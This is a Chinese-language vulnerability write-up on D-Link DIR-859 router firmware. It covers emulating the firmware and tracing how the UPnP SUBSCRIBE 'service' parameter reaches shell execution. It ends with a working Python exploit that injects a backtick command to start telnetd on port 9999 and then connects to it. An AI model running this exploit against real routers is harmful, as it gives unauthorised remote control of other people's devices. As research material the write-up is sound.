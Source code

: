 # 基础信息:
固件下载地址:[router_Firmware_collection/DLINK/DIR-859/DIR859Ax_FW105b03.bin at master · nightRainy/router_Firmware_collection (github.com)](https://github.com/nightRainy/router_Firmware_collection/blob/master/DLINK/DIR-859/DIR859Ax_FW105b03.bin)
```c
binwalk -Me DIR859Ax_FW105b03.bin
```
binwalk解压后，并未加密，得到了完整的文件系统

![](image/7a0dfa05f8a54063552fd74490ab3f1f.png)

```c
sudo ./firmwalker-pro-max.sh '/home/iot/Desktop/D-link/DIR859Ax/squashfs-root' > '/home/iot/Desktop/D-link/DIR859Ax/firmwalker-pro-max.txt' 
```
用firmwalker-pro-max脚本跑一下，获取一些可疑或有用的信息

![](image/b06820da913cd3ef9af7732386e907a6.png)

以最典型busybox查看其为32bit的大端序，MIPS架构的固件
```c
file busybox
```

![](image/3e37f3e6af59810999ac61433dcb6e56.png)

并且无保护
```c
checksec --file=busybox
```

![](image/1401a3580b5fcae595f1305c370790fc.png)

# 模拟固件:
用FirmAE模拟
```c
sudo ./run.sh -d DIR859Ax '/home/iot/Desktop/D-link/DIR859Ax/DIR859Ax_FW105b03.bin' 
```
模拟成功

![](image/5e5247c0ca3454302f21568b9a2f3bb5.png)

针对模拟好的服务，对其web目录进行未授权检查，发现诸多疑似未授权界面，点点查看一下
```c
python3 unauth_bypass.py
```

![](image/17ccb7a5b9582be5cde32a71321c1189.png)

查看了一下好像都需要session要不就是提示Authetication Fail!
# 分析固件:
首先在genacgi_main函数中，只要对比为SUBSCRIBE就会进入到sub_410020函数中
也就是说订阅事件

![](image/dd80ea5c03578730bc02659371126b61.png)

进入到sub_410020发现，在sprintf后通过xmldbc_ephp执行了run.NOTIFY.php

![](image/bbdc7e4f56a6f24f21a7af763831a51e.png)

sprintf
第一部分是 "/htdocs/upnp/run.NOTIFY.php"，表示一个脚本的路径。
METHOD=SUBSCRIBE 表示请求的方法。
INF_UID=%s 将被 v2 替代，通常是一个唯一标识符。
SERVICE=%s 将被 a1 替代，表示服务的名称或类型。
SID=%s 将被 v3 替代，表示会话 ID。
TIMEOUT=%d 将被 v20 替代，表示超时设置。
SHELL_FILE=%s/%s.sh 将被 "/var/run" 和 a1 替代，表示要执行的脚本路径。

向上追溯了a1是指url后面”?service=“的参数

![](image/b724ce9b8bd5b0fe5bec6ba14ec2212e.png)

而通过v23把sprintf的内容传入到xmldbc_ephp函数后a3也就是我们要构造的报文，计算了长度又传入了sub_41420C函数中

![](image/10a3c4528be6e50ec075470629d3e7d1.png)

又在sub_413810中处理了a3

![](image/369af473bb3d0a52dc1413dd057ca0c3.png)

而sub_413810中通过send函数发送了数据包给php执行

![](image/cb99a8389eb480c29c1c20fb5f440f26.png)

分析至此我们知道，发送到的php文件就是/htdocs/upnp/run.NOTIFY.php
根据我们要构造的报文发现在run.NOTIFY.php传入SUBSCRIBE后又经过了GENA_subscribe_new函数处理了数据

![](image/9e05c67673a151478d2633a0fa967979.png)

我们去查找一下这个函数是在哪里被定义的，发现是在gena.php中定义

![](image/9a7b6ee123398888c46ee9d32897a758.png)

该函数主要是用于订阅的

![](image/15cf622acaf2671518dec884193776b7.png)

再去关注一下最后两行的两个函数，最终在GENA_notify_init函数中发现，它写了一个名为$shell_file的脚本，又删除了

![](image/592bd4d236fdac7f9260e95792ae6ff7.png)

看到这个参数我突然觉得关注重点应该一直放在这个$shell_file因为只有它相对来说算是我们可控的，结合一开始的sprintf，也知道a1是指url后面”?service=“的参数

![](image/912de7333bd5abd329cfe877d4001e95.png)

那么这么说的话，这个service要执行的文件名我们用反引号扩起就看实现命令执行

# exp:
```python
# -*- coding: utf-8 -*-

import socket
import os
from time import sleep

# 漏洞利用代码
def httpSUB(server, port, shell_file):
    print('\n[*] 连接到 {host}:{port}'.format(host=server, port=port))
    
    # 创建一个 TCP/IP 套接字
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # 构造请求包
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + ":" + str(port) + "\n"
    request += "Callback: <http://192.168.0.1:31337/aaa>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    
    # 打印请求包
    print("[*] 发送负载")
    print("[*] 请求包:")
    print(request)
    
    sleep(1)
    
    # 连接到服务器并发送请求
    con.connect((socket.gethostbyname(server), port))
    con.send(request.encode())
    
    # 接收响应
    results = con.recv(4096)
    
    # 打印响应包
    print("[*] 响应包:")
    print(results.decode())
    
    sleep(1)
    print('[*] 正在运行 Telnetd 服务')
    sleep(1)
    print('[*] 正在打开 Telnet 连接\n')
    sleep(2)
    
    # 打开 Telnet 连接
    os.system('telnet ' + str(server) + ' 9999')

# 获取用户输入并调用函数
serverInput = raw_input('IP 路由器: ')  # 在 Python 2 中使用 raw_input()
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')

```
执行效果

![](image/4798d470fd30051665f60be6d794a794.png)
